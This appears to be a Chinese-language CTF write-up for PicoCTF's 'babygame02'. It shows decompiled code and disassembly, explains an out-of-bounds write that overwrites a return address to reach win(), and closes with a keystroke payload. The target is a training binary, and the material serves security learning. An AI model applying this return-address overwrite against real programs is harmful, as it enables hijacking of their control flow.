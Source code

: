 ```yaml
---
title: PicoCTF - babygame02
tags: [PicoCTF, CTF, PWN]

---
```


# PicoCTF - babygame02
## Source
:::spoiler IDA Main Function
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int position[2]; // [esp+0h] [ebp-AA0h] BYREF
  char map[2700]; // [esp+Bh] [ebp-A95h] BYREF
  char input; // [esp+A97h] [ebp-9h]
  int *p_argc; // [esp+A98h] [ebp-8h]

  p_argc = &argc;
  init_player(position);
  init_map(map, position);
  print_map(map);
  signal(2, sigint_handler);
  do
  {
    do
    {
      input = getchar();
      move_player(position, input, map);
      print_map(map);
    }
    while ( position[0] != 29 );                // y座標
  }
  while ( position[1] != 89 );                  // x座標
  puts("You win!");
  return 0;
}
```
:::
:::spoiler IDA Win Function
```cpp
int win()
{
  char s[60]; // [esp+0h] [ebp-48h] BYREF
  FILE *stream; // [esp+3Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("flag.txt not found in current directory");
    exit(0);
  }
  fgets(s, 60, stream);
  return printf(s);
}
```
:::

:::spoiler IDA Win Function (Assembly)
```assembly
.text:0804975D ; int win()
.text:0804975D public win
.text:0804975D win proc near
.text:0804975D
.text:0804975D s= byte ptr -48h
.text:0804975D stream= dword ptr -0Ch
.text:0804975D var_4= dword ptr -4
.text:0804975D
.text:0804975D ; __unwind {
.text:0804975D push    ebp
.text:0804975E mov     ebp, esp
.text:08049760 push    ebx
.text:08049761 sub     esp, 44h
.text:08049764 call    __x86_get_pc_thunk_bx
.text:08049764
.text:08049769 add     ebx, (offset _GLOBAL_OFFSET_TABLE_ - $)
.text:0804976F nop
.text:08049770 nop
.text:08049771 nop
.text:08049772 nop
.text:08049773 nop
.text:08049774 nop
.text:08049775 nop
.text:08049776 nop
.text:08049777 nop
.text:08049778 nop
.text:08049779 sub     esp, 8
.text:0804977C lea     eax, (aR - 804C000h)[ebx]       ; "r"
.text:08049782 push    eax                             ; modes
.text:08049783 lea     eax, (aFlagTxt - 804C000h)[ebx] ; "flag.txt"
.text:08049789 push    eax                             ; filename
.text:0804978A call    _fopen
.text:0804978A
.text:0804978F add     esp, 10h
.text:08049792 mov     [ebp+stream], eax
.text:08049795 cmp     [ebp+stream], 0
.text:08049799 jnz     short loc_80497B7
.text:08049799
.text:0804979B sub     esp, 0Ch
.text:0804979E lea     eax, (aFlagTxtNotFoun - 804C000h)[ebx] ; "flag.txt not found in current directory"
.text:080497A4 push    eax                             ; s
.text:080497A5 call    _puts
.text:080497A5
.text:080497AA add     esp, 10h
.text:080497AD sub     esp, 0Ch
.text:080497B0 push    0                               ; status
.text:080497B2 call    _exit
```
:::

## Recon
這一題超難，主要是看了ref[^babygame02_martin_wp][^babygame02_ryan_wp]也不太知道怎麼做的，跟了gdb也分析不出個所以然，大概是和[前一題](https://hackmd.io/@SBK6401/rytbWvp5h)概念很像，從IDA分析的main function可以知道這次我們要想辦法跳到一個叫做win function的地方，但是這個function從來沒有被呼叫過，也沒有明顯的bof，所以要先用一些奇淫技巧改變return address，也就是到零零座標之後要先往上走(但是stack的變化我看不懂，總之y軸的數值變成0xfffffff，但不像上一題一樣會表現出來)，總之再往左邊走39次，並改變原本玩家的表示字元(0x40)成win()對應的最後一個byte，例如0x50, 0x5e, 0x60, 0x61, 0x64, 0x69, 0x6f, 0x70 - 0x78...，此時就會看到stack的return value就會是0x80497xx，他就會跳到win function吐出flag
## Exploit
Payload:
```bash
aaaa
wwwww
l]
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
s
```
## Reference
[^babygame02_martin_wp]:[ picoCTF babygame02 - Martin Carlisle](https://youtu.be/y2E9fGfV6sI)
[^babygame02_ryan_wp]:[babygame02 picoCTF writeup](https://blog.ry4n.org/babygame02-picoctf-writeup-6bf57b54f7b3)